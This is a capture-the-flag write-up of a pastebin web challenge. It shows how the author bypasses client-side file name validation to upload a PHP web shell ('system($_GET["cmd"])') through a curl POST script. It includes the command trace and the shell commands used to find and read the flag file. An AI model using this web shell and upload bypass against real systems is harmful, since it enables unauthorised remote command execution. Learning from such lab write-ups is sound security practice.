

This was another fun one. When you open the page, there is nothing but a simple
pastebin and a lot of what looked like javascript and ajax code in the main page.

Passing the information through Burp showed me some information, such as the
fact the server was using the 1.26.1 httpd server and PHP 8.3.7, so we know that
most likely there is some kind of PHP backend so my next question was whether there
was a database service or not.

Looking at the code, I noticed that request is AJAX and submits to itself. See this
line right here:

xhr.open("POST", "", true);

There is no URL listed, so it will probably be submitted to the current page instead of a
specific endpoint. There is a bunch of code at the bottom of the page source that just
reads out something about being AI and appeared to be there as a false lead. I mostly
ignored it because this POST had my attention. My next step was to see how this worked,
I typed in some data and, for a filename, I just gave it text.txt and hit submit.

Error: Only alphanumeric characters are allowed. So there is some sort of input validation
but it appeared to be minimal, I did not test this further as I noticed some things at
this point: It's not tracking my uploads with a user account, session, or even a cookie,
at least from my quick glance, so it probably just takes pasted data and tosses it into
a file. I created a testfile with some quick characters and watched as it was sent back to
the server and that I could open it in the /uploads area of the website.

So I began to craft a php payload that would let me run remote commands and I'm happy with
the code as I was just going to try and bypass any filter by encoding it with the following
lines:

$payload = '<?php system($_GET["cmd"]); ?>';

/* Encode the payload */
$encoded_payload = base64_encode(gzdeflate($payload));
echo $encoded_payload;

And after I hit save I realized that this isn't going to work. Sure, the encoding might get
past input sanitization, but the fact I couldn't save this as a file with a ".php" extension,
the web server will most likely just serve it as plain text instead of executing it for me.

Back to the POST and I began to think that this page probably assumes that any submission
to this page is from this page, and nothing in the code appeared to validate whether it
came from this page through a random token or something. So I wrote a small payload
delivery script that I hoped would send the payload with the ".php" extension and bypass
any filters. It worked, as shown here:

┌──(trhodes㉿kali)-[~/MY_TOOLS/PHP]
└─$ sh bypass_delivery.sh
+ ENDPOINT=https://uscybercombine-s4-scs.chals.io/
+ PAYLOAD_FILE=payload.php
+ + + cat payload.php
sed :a;N;$!ba;s/\n/\\n/g
sed s/"/\\"/g
+ PAYLOAD_CONTENT=<?php system($_GET[\"cmd\"]); ?>
+ printf {"pasteContent": "%s", "pasteFileName": "payload.php"} <?php system($_GET[\"cmd\"]); ?>
+ JSON_DATA={"pasteContent": "<?php system($_GET[\"cmd\"]); ?>", "pasteFileName": "payload.php"}
+ curl -X POST https://uscybercombine-s4-scs.chals.io/ -H Content-Type: application/json -d {"pasteContent": "<?php system($_GET[\"cmd\"]); ?>", "pasteFileName": "payload.php"}
{"message":"Paste saved successfully"}+ exit 0

As you probably noticed, I am using "-x" to print out everything as I always like to be alerted
to any errors at all. Now we can go to uploads/payload.php?cmd=COMMAND to start digging up some
data. You can see the example here where I am getting a uname from my payload after sending it,
I wanted to display the code execution and the payload usage in one image:



I began with some simple calls to "ls" and peeked around, but I didn't find anything. There
was a strange file with a bunch of random characters that I thought was just someone's rogue
payload, but nothing to indicate a flag. I almost tried to do a reverse shell until I chose
to issue a find:

https://uscybercombine-s4-scs.chals.io/uploads/payload.php?cmd=find%20/%20-type%20f%20-name%20%27*flag*%27

This printed out the following information (which I added a few newlines to so it stays aligned better):

/proc/sys/kernel/acpi_video_flags /proc/sys/net/ipv4/fib_notify_on_flag_change /proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags /var/www/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt /sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags /sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags /sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags /sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags /sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags /sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags /sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags /sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags /sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags /sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags /sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags /sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags /sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags /sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags /sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags /sys/devices/virtual/net/eth1/flags /sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags /sys/module/scsi_mod/parameters/default_dev_flags

Notice that what I thought previously to be a rogue payload from someone else is actually a directory
that holds the flag! So I went to the following URL, and there, on my screen, was the flag:

https://uscybercombine-s4-scs.chals.io/uploads/payload.php?cmd=cat%20../cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt

The flag was my only output: SIVBGR{v@lidate_s3rver_s1de}

Fun times. This is my third solo CTF, and I'm having a great time with stuff like this. I guess I should add that
I sent one final command, that was to "rm payload.php" so someone else can have the same amount of fun I had
with this challenge.
